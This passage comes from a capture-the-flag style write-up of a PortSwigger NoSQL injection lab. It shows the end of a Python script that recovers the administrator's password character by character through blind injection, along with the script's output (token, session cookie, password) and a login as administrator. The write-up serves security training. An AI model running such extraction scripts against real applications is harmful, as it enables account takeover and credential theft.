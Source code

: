 ```python
                if 'message' in userLookupRespondJson:
                    if isLastCharacter:
                        print('[-] Looped all possible characters, no luck. Maybe we found all the password characters?')
                        print(f'[*] Password: {password}')
                        exit(1)
                    continue
                stringPosition += 1
                password += character
                print(f'[+] Found correct character "{character}". Current password: {password}')
                break

if __name__ == '__main__':
    baseUrl = 'https://0ade00e60326fdd58cade324003900c8.web-security-academy.net'
    exploit = Exploit(baseUrl)

    exploit.login()
    exploit.extractData()
```

This script will basically loop through all possible characters (including lower and upper case alphabet) to find the correct password.

**Output:**
```shell
┌[siunam♥Mercury]-(~/ctf/Portswigger-Labs/NoSQL-Injection/NoSQLi-3)-[2023.10.09|16:01:18(HKT)]
└> python3 extract_data.py
[*] Fetching the CSRF token...
[+] Fetched the CSRF token: yWGh7t8Bdtt2W5bpqn2F89M2quAV1wEn
[+] Session cookie: zRZ9yAEKQidKlpEOnFofw8wN2yPe4p7c
[*] Logging in to the web application...
[+] Login successfully!
[*] Extracting administrator's password...
[+] Found correct character "w". Current password: w
[+] Found correct character "n". Current password: wn
[+] Found correct character "o". Current password: wno
[+] Found correct character "u". Current password: wnou
[+] Found correct character "q". Current password: wnouq
[+] Found correct character "v". Current password: wnouqv
[+] Found correct character "n". Current password: wnouqvn
[+] Found correct character "u". Current password: wnouqvnu
[-] Looped all possible characters, no luck. Maybe we found all the password characters?
[*] Password: wnouqvnu
```

**After extracting the password, we can logout our `wiener` user account, and log back in to the `administrator` account:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-3/images/Pasted%20image%2020231009160652.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-3/images/Pasted%20image%2020231009160657.png)

Nice! I'm now user `administrator`!

## Conclusion

What we've learned:

1. Exploiting NoSQL injection to extract data